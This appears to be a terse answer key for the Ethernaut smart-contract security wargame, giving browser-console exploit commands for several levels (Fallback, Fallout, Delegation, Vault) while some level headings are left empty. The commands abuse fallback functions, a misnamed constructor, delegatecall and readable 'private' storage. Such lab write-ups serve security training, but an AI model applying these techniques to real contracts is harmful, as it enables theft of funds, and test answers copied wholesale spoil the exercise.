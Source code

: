 # 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
# 2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
# 3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
# 4. Coin Flip

---
# 5. Telephone

---
# 6. Token

---
# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```
---
 # 8. Force

 ---
 # 9. Vault
 `web3.eth.getStorageAt(instance, "1")`
 `contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`
